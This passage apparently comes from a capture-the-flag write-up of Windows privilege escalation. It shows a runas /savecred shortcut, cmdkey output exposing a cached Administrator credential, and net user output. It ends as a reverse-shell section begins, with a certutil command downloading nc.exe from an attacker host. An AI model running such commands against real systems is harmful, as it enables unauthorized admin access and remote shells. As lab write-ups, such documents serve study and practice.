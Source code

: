 ```
C:\Windows\System32\runas.exe#..\..\..\Windows\System32\runas.exeC:\ZKTeco\ZKAccess3.5G/user:ACCESS\Administrator /savecred 
```
runas and /savecred??

### cmdkey
```
C:\Users\Public\Desktop>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
```

Seems like admin cred is cached.

### net user
```
C:\Users\Public\Desktop>net user administrator
User name                    Administrator
Full Name                    
Comment                      Built-in account for administering the computer/domain
User's comment               
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            8/21/2018 9:01:12 PM
Password expires             Never
Password changeable          8/21/2018 9:01:12 PM
Password required            No
User may change password     No

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   2/22/2023 2:09:24 PM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Users                
Global Group memberships     *None                 
The command completed successfully.
```
Password is not required, so this means that we can use runas without password.

## Reverse shell for root
### Unsuccessful attempt
### upload nc to the compromised machine
In User security
```
certutil -urlcache -split -f http://10.10.14.17:8080/nc.exe nc.exe
```
